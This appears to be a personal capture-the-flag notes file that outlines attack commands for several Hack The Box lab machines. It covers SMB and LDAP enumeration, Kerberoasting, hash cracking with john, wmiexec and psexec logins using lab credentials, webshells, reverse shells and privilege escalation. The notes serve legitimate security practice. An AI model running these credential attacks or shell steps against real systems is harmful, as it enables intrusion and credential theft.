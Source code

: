 # Win-Conceal
https://0xdf.gitlab.io/2019/05/18/htb-conceal.html
```
nmap -sU
snmpwalk
john
ipsec up conceal
ftp
webshell .asp
reverse shell - PowerShell
JuicyPotato
```

# Win-Active
https://0xdf.gitlab.io/2018/12/08/htb-active.html
```
enum4linux 10.10.10.100
smbclient \\\\10.10.10.100\\Replication
gpp-decrypt
ldapsearch -x -b "dc=active,dc=htb" -H ldap://10.10.10.100 -D SVC_TGS -w GPPstillStandingStrong2k18 > ldapsearch.txt
cp /usr/share/doc/python3-impacket/examples/GetUserSPNs.py .
john hashadmin -w=/usr/share/wordlists/rockyou.txt
./wmiexec.py active.htb/Administrator:Ticketmaster1968@10.10.10.100
./psexec.py Administrator:Ticketmaster1968@10.10.10.100
```



# Win-Search
https://0xdf.gitlab.io/2022/04/30/htb-search.html
```
smbclient \\\\10.10.11.129\\RedirectedFolders$ -U search.htb/hope.sharp
ldapdomaindump -u search\\hope.sharp -p IsolationIsKey? 10.10.11.129
./GetUserSPNs.py search.htb/hope.sharp -dc-ip 10.10.11.129 -request
john hash-web_svc -w=/usr/share/wordlists/rockyou.txt
crackmapexec smb 10.10.11.129 -u user_opt.txt -p @3ONEmillionbaby
sheetProtection
pfx2john staff.pfx > pfx_hash
./SharpHound.exe
./smbserver.py share . -smb2support -username df -password df
./BloodHound
./wmiexec.py 'search/tristan.davies:0xdf0xdf!!!@10.10.11.129'
```



# Win-StreamIO
```
SQL Injection
ffuf with authentication
evil-winrm
winPEAS
BloodHound
PowerView.ps1
```


# Lin-Bashed
https://0xdf.gitlab.io/2018/04/29/htb-bashed.html
```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.10.68/FUZZ -fc 403 -e .aspx,.php,.txt,.html
/dev/phpbash.php
reverse shell - python
python3 -c "import pty;pty.spawn('/bin/bash')"
sudo -l
sudo -u scriptmanager bash -i
python -c shell.py
```

# Lin-SolidState
https://0xdf.gitlab.io/2020/04/30/htb-solidstate.html
```
nc 10.10.10.51 4555
telnet 10.10.10.51 110
Escape rbash
LinEnum.sh
reverse shell - nc
move to bash
```

# Lin-Jarvis
https://0xdf.gitlab.io/2019/11/09/htb-jarvis.html
```
SQL injection
Webshell
sudo -l
Reverse Shell - Bash
LinEnum.sh
PrivEsc - systemctl
```
